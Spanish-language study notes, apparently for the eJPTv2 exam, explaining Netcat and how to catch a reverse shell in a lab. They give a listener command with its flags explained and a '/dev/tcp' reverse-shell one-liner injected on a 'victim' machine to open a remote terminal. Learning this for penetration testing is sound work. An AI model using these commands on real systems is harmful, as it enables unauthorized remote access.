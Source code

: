 ¿Que es Netcat?: Netcat es una herramienta de red que permite abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto específico y forzar conexiones UDP/TCP. Es útil tanto para ataques como para auditores de seguridad de re  
  

> [!important] https://www.revshells.com - Este es un generador de shell inversa en línea que permite a cualquier persona configurar sus direcciones IP, puertos y shell de elección para sus payloads (cargas útiles) .

  

![[Imagenes/image.png]]

  

  
Ponemos el siguiente comando en nuestra maquina atacante **nc -nlvp 443** . Con esto ponemos el Netcat en escucha en el puerto 443.

  
  
`nc -nlvp 443`  
  

> [!important] `nc`: Invoca **la herramienta** Netcat.<br><br><br>`-n`: **Desactiva la resolución de nombres DNS**. Esto significa que solo se usarán direcciones IP sin intentar resolver nombres de dominio.<br><br><br>`-``l`: **Activa el modo de escucha** (listen), lo que **convierte Netcat en un servidor que espera conexiones entrantes**.<br><br><br>`-v`: Habilita el modo "verboso" (verbose), proporcionando **información** detallada **sobre las conexiones**.<br><br><br>`-``p 443`: Especifica el **puerto** en el **que** Netcat **estará escuchando**, en este caso, el puerto 443 (comúnmente utilizado por HTTPS).<br><br>

  

![[/Apuntes-para-Examen-eJPTv2/tree/main/Imagenes/9d3054ff-5a86-428a-bcc8-294f30a5ddb7.png]]

  

Si conseguimos acceso a muestra maquina victima debemos inyectar el comando que habíamos conseguido con el reverse shell generator.  
  
  
`sh -i >& /dev/tcp/192.168.1.49/443 0>&1`

  

![[./imagenes/image 1.png]]

  

Nuestra maquina atacante Kali reacciona a la señal de la maquina victima, originado que tengamos abierta una terminal interactiva sobre la maquina victima.

  

![[/imagenes/image 2.png]]

![[imagenes/image 3.png]]